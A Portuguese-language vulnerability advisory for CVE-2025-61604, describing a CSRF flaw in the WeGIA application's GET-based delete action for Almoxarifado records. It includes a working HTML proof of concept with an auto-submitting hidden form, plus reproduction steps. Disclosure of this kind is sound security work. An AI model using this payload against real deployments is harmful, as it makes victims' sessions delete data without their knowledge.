


## CVE-2025-61604: Cross-Site Request Forgery (CSRF) na exclusão (GET) da classe `AlmoxarifadoControle` no endpoint `control.php`

> *Publicação CVE: https://www.cve.org/CVERecord?id=CVE-2025-61604*

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de Cross-Site Request Forgery (CSRF) foi identificada no aplicativo WeGIA. A operação de exclusão da entidade <code>Almoxarifado</code> é exposta via <code>HTTP GET</code> sem proteção CSRF, permitindo que um site de terceiros acione a ação usando a sessão autenticada da vítima.</p>

## PoC

Endpoint vulnerável: `GET /WeGIA/controle/control.php`

Parâmetros: `metodo`, `nomeClasse` e ​​`id_almoxarifado`





**Navegação de nível superior (funciona mesmo com SameSite=Lax)**

Hospede o arquivo abaixo de uma origem diferente e abra-o enquanto estiver conectado ao WeGIA (ex: <code>poc_csrf_get.html</code>):

```html
<!doctype html>
<html>
  <body>
    <form id="f" method="GET" action="https://sec.wegia.org:8000/WeGIA/controle/control.php" target="_self">
      <input type="hidden" name="metodo" value="excluir">
      <input type="hidden" name="nomeClasse" value="AlmoxarifadoControle">
      <input type="hidden" name="id_almoxarifado" value="{choose a ID}">
    </form>
    <script>document.getElementById('f').submit();</script>
  </body>
</html>
```

## Etapas para Reproduzir:

<p style="text-align: justify;">
<ul>
<li>Faça login no WeGIA com um usuário autorizado a excluir <code>Almoxarifado</code>.</li>
<li>De outra origem (por exemplo, <code>http://127.0.0.1:8008</code>), abra o HTML PoC acima.</li>
<li>Observe o WeGIA executando o fluxo de exclusão (por exemplo, erro de FK ou exclusão normal), comprovando que uma solicitação entre sites pode acionar a ação.</li>
</ul>
</p>

## Impacto

<p style="text-align: justify;">
  <ul>
    <li>Comprometimento da integridade: invasores podem induzir usuários privilegiados a realizar ações destrutivas visitando uma página controlada por eles.</li>
  <li>Possível perda de dados ou interrupção operacional se IDs não protegidos por restrições de FK forem visados.</li>
  </ul>
</p>

## Referência

***[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-59hm-4m9h-ch3m](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-59hm-4m9h-ch3m)***

## Encontrado por

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***